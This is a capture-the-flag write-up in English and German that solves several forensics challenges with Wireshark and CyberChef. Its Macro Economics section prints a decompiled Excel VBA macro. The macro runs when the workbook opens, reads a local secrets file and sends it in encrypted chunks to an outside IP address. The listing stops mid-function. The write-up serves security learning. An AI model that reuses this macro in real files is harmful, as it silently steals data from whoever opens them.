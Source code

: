 ![](https://i.imgur.com/AeLuxXs.png)


_flag{m30w}_

### Strange Packets (100) ✅

Just open it in wireshark. Each 2nd packet contains a letter in a specific data segment. Just keep pressing the down arrow until you spot the word flag distributed over 8 packets.

_flag{m0dbu5_is_4_simpl3_ProtOcol}_

### Dropbox Forensics (300) ❌

\-

### Data Exfil (200) ✅

Wireshark dump in welchem mittels ICMP ein Bild übertragen wird.
![](https://i.imgur.com/vpnCuVa.png)

![](https://i.imgur.com/pi46Alv.png) 
- (1) die ICMP Pakete mit Payload finden. (Schwarz makiert)
- (2&3) aus diesen NUR die Daten ohne den ICMP Header anzeigen lassen
- (4) die Daten als Roh anzeigen lassen und alle hintereinander Cyberchef übergeben

![](https://i.imgur.com/vVJJ0jT.png)
mit dem RAW Hexdump Cyberchef seine Magie machen lassen.

### Macro Economics (100) ✅

Open the file with Excel. Look at the decompiled Visual Basic Macro.

```vb
Private Sub Workbook_Open()

Dim byteArr() As Byte
Dim fileInt As Integer: fileInt = FreeFile
Open "C:/docs/secrets.txt" For Binary Access Read As #fileInt
ReDim byteArr(0 To LOF(fileInt) - 1)
Get #fileInt, , byteArr
Close #fileInt

Dim tmpStr As String
tmpStr = sendFile(byteArr())
End Sub

Function sendFile(b() As Byte) As String
  Dim tmpStr As String
  Dim midStr As String
  Dim out As String
  Dim urlStr As String
  Dim code As String
  Dim i
  urlStr = "URL;http://10.13.37.3/"
  req (urlStr)
  code = Range("A1").Value
  tmpStr = StrConv(b(), vbUnicode)
  For i = 1 To 256 Step 8
    midStr = Mid(tmpStr, i, 8)
    out = Cipher(midStr, code)
    out = ByteArrayToHexStr(StrConv(out, vbFromUnicode))
    urlStr = "URL;http://10.13.37.3/?" & CStr(out)
    req (urlStr)
    code = Range("A1").Value
```